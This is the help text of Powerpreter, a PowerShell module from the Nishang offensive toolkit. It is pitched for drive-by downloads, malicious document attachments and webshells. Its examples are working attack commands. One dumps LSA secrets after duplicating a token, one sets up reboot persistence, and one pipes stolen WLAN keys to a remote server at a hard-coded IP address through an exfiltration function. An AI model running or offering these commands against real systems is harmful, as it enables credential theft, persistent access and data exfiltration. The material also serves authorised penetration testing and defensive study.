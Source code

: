 ##### Powerpreter is a script module which makes it useful in scenarios like drive-by-download, document attachments, webshells etc. where one may like to pull all the functionality in Nishang in a single file or where deployment is not easy to do. Powerpreter has persistence capabilities too. See examples for help in using it.

##### Examples

.EXAMPLE

PS > Import-Module .\Powerpreter.psm1

PS> Get-Command -Module powerpreter

The first command imports the module in current powershell session. Ignore the Unapproved verbs warning.

The second command lists all the functions available with powerpreter.

.EXAMPLE

PS > Import-Module .\Powerpreter.psm1; Enable-DuplicateToken; Get-LSASecret

Use above command to import powerpreter in current powershell session and execute the two functions.

.EXAMPLE

PS > Import-Module .\Powerpreter.psm1; Persistence

Use above for reboot persistence

.EXAMPLE

PS > Import-Module .\Powerpreter.psm1

PS > Get-WLAN-Keys | Do-Exfiltration -ExfilOption Webserver -URL http://192.168.254.183/catchpost.php

Use above for exfiltration to a webserver which logs POST requests.
